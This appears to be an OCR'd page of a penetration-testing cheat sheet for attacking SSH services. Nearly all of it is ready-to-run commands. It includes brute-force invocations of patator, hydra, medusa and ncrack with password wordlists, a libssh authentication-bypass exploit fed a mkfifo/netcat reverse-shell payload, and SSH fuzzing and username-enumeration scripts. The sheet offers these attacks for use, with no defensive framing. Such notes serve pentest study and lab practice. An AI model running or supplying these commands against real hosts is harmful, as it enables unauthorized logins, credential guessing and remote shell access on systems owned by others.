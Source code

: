 ```bash
Transferred: sent 2412, received 2480 bytes, in 0.1 seconds
Bytes per second: sent 43133.4, received 44349.5
debug1: Exit status 0

# Check Auth Methods:
$ ssh -v 10.10.1.111
OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive

# Force Auth Method:
$ ssh -v 10.10.1.111 -o PreferredAuthentications=password
...
debug1: Next authentication method: password

# BruteForce:
patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

# LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access 
# Id
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
# Reverse
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

# SSH FUZZ
# https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt

# cpan Net::SSH2
./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

# SSH-AUDIT
# https://github.com/arthepsy/ssh-audit                     

# Enum users < 7.7:
# https://www.exploit-db.com/exploits/45233
https://github.com/CaioCGH/EP4-redes/blob/master/attacker/sshUsernameEnumExploit.py
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"

# SSH Leaks:
https://shhgit.darkport.co.uk/

# SSH bruteforce
# https://github.com/kitabisa/ssb
```
